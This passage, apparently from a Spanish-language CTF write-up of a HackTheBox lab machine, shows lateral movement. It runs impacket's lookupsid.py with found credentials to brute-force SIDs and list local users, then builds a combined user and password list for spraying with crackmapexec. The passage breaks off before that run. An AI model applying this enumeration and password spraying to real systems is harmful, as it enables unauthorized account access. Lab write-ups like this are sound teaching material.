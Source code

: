 Pero intentando con `hazard` no lo logramos ): Así que tamos F...

...

## Movimiento lateral : Enumerando usuarios locales [#](#movimiento-lateral-enum-users) {#movimiento-lateral-enum-users}

Siguiendo [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-smb) para enumerar **SMB** encontramos una herramienta para probar:

> Enumerate local users with [SID](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows) brute-forcing.

Apoyándonos del repositorio [impacket](https://github.com/SecureAuthCorp/impacket) usamos la herramienta [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) para el brute-forcing:

```bash
❱ lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation   

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Opa, obtenemos los usuarios locales yyyy no solo esta **Hazard**, al menos ya tenemos más para probar, así que hagámoslo sencillo, guardemos toooodas las credenciales en un archivo y con **crackmapexec** hagamos que vaya probando de una en una. Así no tenemos que hacerlo a mano :P

```bash
❱ cat users.txt 
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
None
support
Chase
Jason
secret
admin
rout3r
stealth1agent
Q4)sJu\Y8qz*A3?d
$uperP@ssword
```
